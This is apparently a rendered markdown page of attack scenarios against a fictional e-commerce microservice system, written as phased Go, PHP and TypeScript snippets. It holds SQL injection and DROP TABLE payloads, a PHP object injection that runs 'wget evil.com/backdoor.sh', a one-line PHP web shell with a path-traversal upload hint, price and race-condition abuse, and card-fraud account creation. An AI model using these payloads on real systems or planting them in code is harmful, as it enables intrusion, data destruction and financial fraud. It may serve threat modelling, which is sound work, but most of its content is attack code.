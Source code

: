 ```go
// Phase 2: Products Service Exploitation
// 3. SQL injection to extract product database
searchResults := productService.SearchProducts("' UNION SELECT id,name,price,cost,supplier_secret FROM products--")

// 4. Price manipulation attack
productService.UpdatePrice(productId, -0.01) // Negative pricing
productService.UpdatePrice(productId, 999999999) // Extreme pricing

// 5. Inventory manipulation via race conditions
for i := 0; i < 1000; i++ {
    go func() {
        inventoryService.ReserveStock("premium_product", 1)
    }() // Concurrent requests exploit race condition
}
```

```php
// Phase 3: Orders Service Compromise
// 6. PHP object injection for RCE
$maliciousPayload = 'O:13:"OrderController":1:{s:7:"command";s:25:"wget evil.com/backdoor.sh";}';
$_POST['order_data'] = $maliciousPayload;

// 7. SQL injection via Laravel ORM
$maliciousSort = "id; DROP TABLE orders; CREATE TABLE orders_backup AS SELECT * FROM orders_backup; --";
orderService.generateReport(['sql_query' => $maliciousSort]);

// 8. File upload web shell
$webShell = '<?php system($_GET["cmd"]); ?>';
file_put_contents('invoice.php', $webShell);
// Upload via: ../../../public/shell.php
```

### Financial Fraud Attack Vector

```typescript
// Multi-step financial attack
// 1. Create multiple accounts with same payment method
for (let i = 0; i < 100; i++) {
  await createUser({
    email: `victim+${i}@gmail.com`,
    payment_method: "stolen_card_123"
  });
}

// 2. Exploit race conditions for free products
async function raceConditionAttack() {
  const promises = [];
  for (let i = 0; i < 50; i++) {
    promises.push(
      orderService.createOrder({
        user_id: "admin@evil.com",
        items: [{ product_id: "expensive_item", quantity: 1 }]
      })
    );
  }
  await Promise.all(promises); // Only one payment processed, 50 orders created
}
```
